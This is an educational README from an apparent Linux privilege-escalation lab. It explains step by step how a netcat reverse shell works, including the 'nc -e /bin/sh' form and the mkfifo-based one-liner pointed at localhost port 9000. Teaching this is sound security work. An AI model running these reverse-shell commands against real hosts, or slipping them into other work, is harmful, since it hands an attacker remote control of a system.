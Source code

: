 # Explaining the reverse shell in 5.wildcard-cron

## Tmux

To practice in the docker you need two active sheels. You can use `tmux` for this, which is already preinstalled.
```sh
tmux
```
You will a new shell and you can split the window into two shells. To do that you need to use the `prefix` commands while in `tmux`.
You can find more information [here](https://www.redhat.com/sysadmin/introduction-tmux-linux).
```sh
# Press Ctrl + B
# This activates the prefix
# press % (a.k.a Shift + 5)
# Now you have two shells
# To move between the shells press Ctrl + B followed by left or right arrow.
```

## Netcat
To run netcat within tmux go to the left shell and type:
```sh
# Listen on port 9000
nc -lvnp 9000
```

In the right shell type:
```sh
# Connect to port 9000
nc 127.0.0.1 9000
```

Now you can send text between the listener and the client.

## Reverse Shell
The simplest form of reverse shell you can get in linux and windows is using `netcat` (`nc` command). More information regarding this can be found [here](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/).

In linux there are two variants, regular and OpenBSD. Depending on the variant and version, you could use the `-e` flag which passes text to another command (in our case that would be a shell).

Assuming we fire up a `netcat` listener.
```sh
# Listen on port 9000
nc -lvnp 9000
```

We can make the client pass every text it receives to a program of our choice (sh) and get the program's output and send it to the listener. Type:
```sh
# Connect to port 9000
nc -e /bin/sh 127.0.0.1 9000
```

In this sense, the listener can send text to client the client sends the text to `/bin/sh` where it is executed as command and the output is sent back to the listener. This is essentially a reverse shell.

## 5.wildcard-cron

In the file `/home/user/5.wildcard-cron/exploit-tarcron.sh` the file `poc.sh` created by the script has the following command inside:
```sh
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/usr/bin/sh -i 2>&1|nc 127.0.0.1 9000 >/tmp/f
```

An equivalent command would be:
```sh
nc -e /bin/sh 127.0.0.1 9000
```
given that our `netcat` version supports the `-e` argument.

### How it works

To understand the command
```sh
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/usr/bin/sh -i 2>&1|nc 127.0.0.1 9000 >/tmp/f
```
we need to introduce a concept in linux and other operating systems called `pipes`. You can find more information about pipes [here](https://opensource.com/article/18/8/introduction-pipes-linux).

There are two kind of pipes:
1. Unnamed pipes
2. Named pipes

and both are used for the same concept: passing input/arguments to another program.

#### Unnamed pipes

You probably have used unnamed pipes before. They are symbolized with `|`.

Example: You want to check if a file contains the word `printf` a common tool for this is grep. You could run something like:
```sh
cat /home/user/1.suid-sgid/src/c-with-suid.c | grep "printf"
```

What this command does is to print the file contents using `cat` and then pass the output to `grep` which will print the line if it matches with the search term (printf in this case).

You can do more elaborate things with unnamed pipes like getting the users sorted from `/etc/passwd`:
```sh
# Print the passwd file
# Pass it to awk, which takes the first occurence after spliting each line by :
# Sort the result 
cat /etc/passwd | awk -F ':' '{print $1}' | sort
```

#### Named pipes
Named pipes are exactly like unnamed pipes, but can be created as special files using the command `mkfifo`. You can think of them as `queues` where you can put some text in them and the text can be consumed by another program, at a different time. In this sense a text is passed to another program, hence the term pipe.

Note that the text can be consumed only once and the pipes are not meant to store data like files.

Here is an example. On the first `tmux` shell type:
```sh
mkfifo /tmp/my_pipe
echo "Some text" >> /tmp/my_pipe
# This will put Some text to the pipe and block until the text is consumed
```

On the second `tmux` shell type:
```sh
tail -f /tmp/my_pipe
# This monitors the last lines of a file or pipe and where the is new data it will print it and wait.
```

The moment you run the `tail` command you will see the "Some text" data sent from the first `tmux` shell. At this point the data is consumed, removed from the `queue`/`fifo`.

You can continue adding data to the pipe by going to the first `tmux` shell and add more text there.

```sh
echo "Some text2" >> /tmp/my_pipe
echo "Some text4" >> /tmp/my_pipe
echo "Some text5" >> /tmp/my_pipe
```

#### Named pipe with reverse shell
The idea using the named pipe for a reverse shell is simple. Unnamed pipes are not enough, but we can combine them with name pipes to achieve the following flow:

1. `Netcat` listener listens on port `9000`.
2. `Netcat` client connects to the listener on `9000`.
3. The listener sends the command `whoami` to the client.
4. The client sends this command to the named pipe.
5. The pipe is configured so that `/bin/sh` receives data from it as input using an unnamed pipe. It gets the command from the pipe, runs it and uses an unnamed pipe again to send it back to netcat client which sends it back to the listener.

Let us break down the command now:
```sh
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/usr/bin/sh -i 2>&1|nc 127.0.0.1 9000 >/tmp/f
```
can be writen line by line as
```sh
# If there is a file named /tmp/f, remove it
rm -f /tmp/f
# Create the named pipe /tmp/f
mkfifo /tmp/f
# Here is where th magic happens (see below).
cat /tmp/f|/usr/bin/sh -i 2>&1|nc 127.0.0.1 9000 >/tmp/f
```

Let us break apart the last command now:
- `cat /tmp/f|/usr/bin/sh -i 2>&1`
  - send the output of the unnamed pipe f to `/usr/bin/sh` run as an interactive shell (`-i` argument).
  - `2>&1` Means redirect stderr (2 fd) stdout (1 fd).
    - This is useful if you want to receive errors the shell gives you such as "Not found".
    - Usually shells print errors to stderr instead of stdout.
- `|nc 127.0.0.1 9000`
  - Connect to localhost, port `9000`.
  - use an unnamed pipe to send the stdout of `/usr/bin/sh` (which now also includes stderr) to `netcat`.
- Until this point we have set up the the shell so that it reads from the named pipe `/tmp/f` execute the command using `/usr/bin/sh` and send the output to the `netcat` client.
- `>/tmp/f`
  - Take whatever netcat receives and send it to the named pipe `/tmp/f`.
  - Note that the named pipe was hooked in `/usr/bin/sh`.
  - This looks like a circular piping, which is why you cannot just use named pipes, since you have to pipe to the `/usr/bin/sh` which started "before" starting `netcat`.